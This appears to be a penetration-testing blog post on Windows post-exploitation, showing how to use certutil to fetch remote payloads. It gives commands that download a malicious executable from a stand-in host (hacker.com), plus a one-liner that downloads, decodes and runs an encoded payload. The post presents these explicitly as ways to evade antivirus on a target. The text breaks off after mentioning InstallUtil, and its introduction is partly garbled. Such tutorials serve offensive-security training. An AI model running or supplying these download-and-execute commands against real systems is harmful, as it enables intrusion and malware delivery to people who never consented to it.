```yaml
---
layout: post
published: true
title: Windows Post Exploitation 12.2
tags:
  - PWP
  - Intermediate
  - Windows Post Exploitation
comments: true
---
```

## Windows Manual Escalation

## Introduction

**_In this blog post, we will discuss some manual techniques to escalate privileges according to get standard privileges in the target network._**


**Windows File Transfer utilities**

We will discuss some utilities to download remote payloads and execute them in order to perform malicious action, in the target system.


**Certutil**

Certutil is a CLI program that can be used to dump and display certificate authority (CA), configuration information, configures Certificate Services, backup and restore CA components, and verify certificates, key pairs, and certificate chains. It is installed as a part of Certificate Services.

How can we use it to download malicious files and evade antivirus in the target system

Simple command to download malicious files and payloads from a remote server.

**You can create payloads using msfvenom, veil, evilgrade or other tools**

```
certutil -urlcache -split -f http://hacker.com/malicious.exe malicious.exe
```
-URLCache: To display or delete URL cache entries

-split: To split embedded ASN.1 element & Save to files

-f: Force Overwrite



To download encrypted payload from a remote server in target and executing it as .exe.
~~~
certutil -urlcache -split -f http://webserver/malicious.b64 malicious.b64 & certutil -decode malicious.b64 malicious.exe & malicious.exe
~~~

Download encoded payload, decoding it, and combining some commands in one line, with the InstallUtil.exe executing a specific DLL as a payload.
